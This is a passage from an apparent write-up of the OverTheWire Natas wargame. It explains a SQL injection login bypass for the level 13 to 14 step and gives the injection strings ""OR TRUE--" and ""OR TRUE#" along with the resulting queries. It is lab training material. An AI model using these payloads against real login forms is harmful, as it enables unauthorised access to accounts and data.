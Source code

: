 - Opens a MySQL connection and selects natas14 database.
- The `$query` variable contains the query.
- **If the result of the query has more than 0 rows it shows the password.**

### Resolution 13

My first idea would be to try to inject SQL code into the form to "cancel" the `WHERE` clausule or make it `TRUE`
always. The SQL after inject has to perform this operation:

```sql
SELECT * FROM user
-- THE FOLLOWING WHERE SHOULD EVAL TO TRUE
WHERE username="something" AND password="something" 
```

Injecting an `OR TRUE` would make all statement result in true.

```sql
SELECT * FROM user 
WHERE username="something" AND password="something" OR TRUE
```

#### SQL injection

Considering the form works like this:

```text
Username: "Something"
Password: "Something else"
```

Selecting a password (could be username too) that looks like this:

```text
Username: ""OR TRUE--"
Password: "something"
```

Will make the SQL query something like this:

```sql
SELECT * FROM user
WHERE username=""OR TRUE-- AND password="something"
```

Sometimes (in this particular case too) the comment `--` won't work. For MySQL, a more reliable way is to use `#`
instead:

```text
Username: ""OR TRUE#"
Password: "something"
```

The SQL query:

<code-block lang="sql" src="otw/natas/13-14.resolution.sql"/>

## Level 14 to Level 15
